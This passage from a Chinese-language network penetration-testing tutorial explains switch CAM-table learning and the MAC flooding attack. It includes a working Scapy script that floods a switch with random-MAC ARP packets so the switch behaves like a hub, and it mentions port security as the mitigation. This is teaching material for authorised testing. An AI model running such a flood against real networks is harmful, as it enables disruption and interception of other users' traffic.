 CAM 表学习活动

前面的图分为两部分。在第一部分中，具有**MAC A**的计算机向具有**MAC B**的计算机发送**ARP**数据包。交换机学习数据包是从物理端口`1`到达的，并在**CAM 表**中创建一个条目，使 MAC A 与端口`1`相关联。交换机将数据包发送到所有连接的设备，因为它没有**MAC B**的 CAM 条目。在图的第二部分中，具有**MAC B**的计算机做出响应。交换机学习它来自端口`2`。因此，交换机创建一个条目，指出**MAC B**计算机连接到端口`2`。

# MAC flood 逻辑

当我们发送大量请求时，如前图所示，如果主机 A 发送具有不同 MAC 的虚假 ARP 请求，那么交换机将每次为端口`1`创建一个新条目，例如`A—1`，`X—1`和`Y—1`。有了这些虚假条目，CAM 表将变满，并且交换机将开始表现得像集线器。

现在，让我们编写代码如下：

```py
from scapy.all import *
num = int(raw_input("Enter the number of packets "))
interface = raw_input("Enter the Interface ")

eth_pkt = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")

arp_pkt=ARP(pdst='192.168.1.255',hwdst="ff:ff:ff:ff:ff:ff")

try:
  sendp(eth_pkt/arp_pkt,iface=interface,count =num, inter= .001)

except : 
  print "Destination Unreachable "
```

前面的代码非常容易理解。首先，它要求您要发送的数据包数量。然后，对于接口，您可以选择`WLAN`接口或`eth`接口。`eth_pkt`语句使用随机 MAC 地址形成一个以太网数据包。在`arp_pkt`语句中，形成了一个带有目标 IP 和目标 MAC 地址的 ARP 请求数据包。如果要查看完整的数据包字段，可以使用 Scapy 中的`arp_pkt.show()`命令。

`mac_flood.py`的 Wireshark 输出如下截图所示：

![](img/490deb01-6f40-43dc-ae9e-bed6359bf000.png)

MAC 洪泛攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记为成功。为了减轻 MAC 洪泛攻击，使用端口安全。端口安全将入站流量限制为一组选择的 MAC 地址或有限数量的 MAC 地址和 MAC 洪泛攻击。

# 通过原始套接字断开网关
